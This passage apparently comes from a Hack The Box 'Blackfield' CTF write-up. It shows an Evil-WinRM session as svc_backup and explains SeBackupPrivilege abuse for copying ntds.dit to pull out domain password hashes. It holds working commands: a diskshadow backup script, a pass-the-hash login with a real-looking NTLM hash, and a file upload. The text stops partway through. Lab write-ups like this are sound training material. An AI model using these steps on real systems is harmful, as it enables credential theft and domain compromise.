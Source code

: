 ```shell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

#### Backup Privilege Abuse

The backup_svc user is always a particularly interesting user to look into. While the username might not be the exact same in real environments, you'll often find that a backup user like this service account will have elevated access to the SeBackupPrivilege permission. Due to this access the user can abuse their rights to create a backup, and read the contents of the file system. One way we can think about this access is that it will essentially provide the user with system level access to all files on the device. This user should be treated with the same security as any full-acccess administrator. [This article](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960) will provide us with instruction on how to perform the following attack chain, where we will use our backup privileges to access the ntds.dit file to extract user password hashes.

```shell
┌──(thadigus㉿kali)-[~/HTB/Blackfield/privesc]
└─$ echo 'set verbose onX                                                         
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX' > backupscript.txt
                                                                                                                                                                                                                
┌──(thadigus㉿kali)-[~/HTB/Blackfield/privesc]
└─$ evil-winrm -i 10.10.10.192 -u svc_backup -H '9658d1d1dcd9250115e2205d9f48400d'   

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload /home/thadigus/HTB/Blackfield/privesc/backupscript.txt
Info: Uploading /home/thadigus/HTB/Blackfield/privesc/backupscript.txt to C:\Users\svc_backup\Documents\backupscript.txt

                                                             
Data: 252 bytes of 252 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc_backup\Documents> dir

```